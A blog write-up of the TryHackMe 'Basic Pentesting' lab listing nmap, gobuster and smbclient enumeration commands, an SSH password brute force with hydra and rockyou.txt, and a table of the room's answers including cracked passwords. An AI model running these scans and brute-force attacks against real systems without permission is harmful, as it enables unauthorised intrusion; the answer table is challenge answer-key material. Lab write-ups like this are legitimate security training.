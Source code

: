 ```yaml
---
layout: post
title: Basic Pentesting
date:  2025-06-17 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, Agent_Sudo,sudo, apt, ssh, ftp,smb] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Basic_pentesting/

---
```


# 🕵️‍♂️ Basic Pentesting — 17 June 2025

![TryHackMe Logo](THM.png)

![Basic Pentesting](BasicPen.png)

---

# 🕵️ Web App Testing & Privilege Escalation — Task 1

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN networkScan.txt 10.10.242.113
```
![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Gobuster)

**Command:**
```bash
gobuster dir -u http://10.10.93.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -o directory_scan.txt
```
![Directory Scan Screenshot](directory_scan.png)

---

## 🗂️ SMB Enumeration

**List SMB Shares:**
```bash
smbclient -L //10.10.125.85/ -N
```
![SMB Shares](smb.png)

**Access Anonymous Share:**
```bash
smbclient //10.10.125.85/Anonymous -N
```
![SMB Anonymous](smb_u.png)
![SMB Anonymous Terminal](smb_t_u.png)

---

## 🔑 SSH Password Crack (Hydra)

**Command:**
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.242.113
```
![Hydra SSH Crack](ssh_hydra.png)

---

## ❓ Questions and Answers

| #  | Question                                                                 | Answer                                               |
|----|--------------------------------------------------------------------------|------------------------------------------------------|
| 1  | What is the name of the hidden directory on the web server (no `/`)?     | `development`                                        |
| 2  | What is the username?                                                    | `jan`                                                |
| 3  | What is the password?                                                    | `armando`                                            |
| 4  | What service do you use to access the server (abbreviation, all caps)?   | `SSH`                                                |
| 5  | What is the name of the other user you found (all lower case)?           | `kay`                                                |
| 6  | What is the final password you obtain?                                   | `heresareallystrongpasswordthatfollowsthepasswordpolicy$$` |

---

## 🎉 Happy Hacking!

![Charlie Hunnam GIF](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExOWk4anV3OXV2cGt1a2F3aHdjdGd6YmhudXJ0aTBleG91anZ1amQ3YyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jBOOXxSJfG8kqMxT11/giphy.gif)


